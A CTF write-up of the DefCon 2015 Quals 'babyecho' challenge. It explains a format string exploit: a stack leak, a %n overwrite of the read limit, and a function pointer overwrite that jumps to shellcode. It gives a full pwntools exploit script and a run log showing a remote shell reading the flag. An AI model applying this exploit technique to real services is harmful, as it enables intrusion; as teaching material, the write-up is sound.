 ```yaml
---
layout: post
title: "DefCon 2015 Quals babyecho"
date: 2015-05-18 12:36:08 -0400
author: [superkojiman,swappage]
comments: true
categories: [defcon]
---
```


### Solved by superkojiman and Swappage

This was basically an echo server. Send it something, and it echoes it back. Swappage started off working on this while I was probably asleep. He found a format string vulnerability which allowed us to leak information from the stack. However, we were limited to 13 characters only. 

After a bit of time examining it in gdb and IDA, I realized that the 13 character limit was being initialized outside of the loop which received our input and echoed it back. Essentially it looked something like this:

```c
int toread = 13;    // total bytes to read
while (1) { 
    int tmp = 1023; 
    if (toread <= 1023) { 
        tmp = toread; 
    } 
    toread = tmp; 
    ..... 
}
```

What about the information we could leak from the stack? Here's what we could get:

```text
aaaa.%1$x  -> 0xd
aaaa.%2$x  -> 0xa
aaaa.%3$x  -> 0x0
aaaa.%4$x  -> 0xd
aaaa.%5$x  -> stack address; ptr to first char in "aaaa" on the stack 
aaaa.%6$x  -> 0x0
aaaa.%7$x  -> start of our format string "aaaa"
```

0xd is the value 13. The one we were interested in changing was at offset 4. How do we get that address? As it turns, out, we can leak a stack address from offset 5, so we just need to subtract the difference and we'd get the address of toread. In this case, toread was 12 bytes before the leaked stack address So:

```python
r.send("%5$x\n") 
leak = r.recvline()
log.info("Leaked stack address " + leak)

# leaked address is a pointer on the stack that's 12 bytes after 
# the address containing 0xd (toread)
toread = int(leak, 16) - 12
log.info("Address of toread " + hex(toread))
```

Once we had the address of toread, we could modify its value so that we could get the program to read more than 13 characters. Since we know that our format string starts at offset 7, this was easy to change: 

```
buf = ""
buf += p32(toread)
buf += "%99x%7$n"

log.info("Length of payload " + str(len(buf)))
log.info("Overwriting toread stage 1" + hexdump(buf))
r.send(buf + "\n")
print r.recv()
```
This sets toread to 103 bytes, so we have more than enough room for write whatever we want anywhere; question was, what to overwrite? There was no GOT since the binary was statically compiled. After a bit of searching, I found a function pointer 0x80ea9f0 that was called by sub_806CB50. I could overwrite this to point to my shellcode, which would be 30 bytes after the leaked stack address. Easy enough to get that address:

```
payload_addr = int(leak, 16) + 30   # payload is leak + 30
log.info("Payload address " + str(hex(payload_addr)))
```

Since ASLR was most likely enabled on the server, I couldn't just pre-calculate the number of bytes to write to overwrite the function pointer. To simplify things, I just used hellman's [libformatstr](https://github.com/hellman/libformatstr).

```
p = FormatStr()
p[0x80ea9f0] = payload_addr                         # overwrite 0x80ea9f0 with calculated payload address

buf = ""
buf += p.payload(7)                                 # format string at offset 7
buf += "\x90\x90\x90" + asm(shellcraft.linux.sh())  # shellcode padded by 3 bytes to keep it aligned

r.send(buf + "\n")
print r.recv()
```

Here's the final exploit:

```
#!/usr/bin/env python

from pwn import *
from libformatstr import FormatStr

r = remote("babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me", 3232)


print r.recv()
r.send("%5$x\n") 
leak = r.recvline()
log.info("Leaked stack address " + leak)

# leaked address is a pointer on the stack that's 12 bytes after 
# the address containing 0xd (toread)
toread = int(leak, 16) - 12

log.info("Address of toread " + hex(toread))

buf = ""
buf += p32(toread)
buf += "%99x%7$n"

log.info("Length of payload " + str(len(buf)))
log.info("Overwriting toread " + hexdump(buf))
r.send(buf + "\n")
print r.recv()

log.info("Write what where")
payload_addr = int(leak, 16) + 30   # payload is leak + 30
log.info("Payload address " + str(hex(payload_addr)))

p = FormatStr()
p[0x80ea9f0] = payload_addr    # 0x80ea9f0 is a function pointer

buf = ""
buf += p.payload(7)
buf += "\x90\x90\x90" + asm(shellcraft.linux.sh())

r.send(buf + "\n")
print r.recv()

r.interactive()
```

So it turns out that the exploit I wrote isn't 100% reliable. The first time I ran it locally it worked, but when I tested it on the server it failed. Then I ran it again locally and it failed. As it turns out, trying it several times will eventually lead to a successful run. I didn't look into why this was the case, but probably something on the stack changes and upsets my calculations; who knows? In any case, it will succeed eventually: 

```
koji@pwnbox:$ ./sploit.py 
[+] Opening connection to babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me on port 3232: Done
Reading 13 bytes

[*] Leaked stack address ffaafa3c
[*] Address of toread 0xffaafa30
[*] Length of payload 12
[*] Overwriting toread 00000000  30 fa aa ff  25 39 39 78  25 37 24 6e               │0···│%99x│%7$n││
    0000000c
Reading 13 bytes

[*] Write what where
[*] Payload address 0xffaafa5a
[!] Your local binutils won't be used because architecture 'i686' is not supported.
0���                                                                                                  d
Reading 103 bytes

[*] Switching to interactive mode
.
.
.

                                                                                                                                                                                                                                                   $ whoami
babyecho
$ cat /home/babyecho/flag
The flag is: 1s 1s th3r3 th3r3 @n @n 3ch0 3ch0 1n 1n h3r3 h3r3? 3uoiw!T0*%
```

Got the flag: **1s 1s th3r3 th3r3 @n @n 3ch0 3ch0 1n 1n h3r3 h3r3? 3uoiw!T0*%**
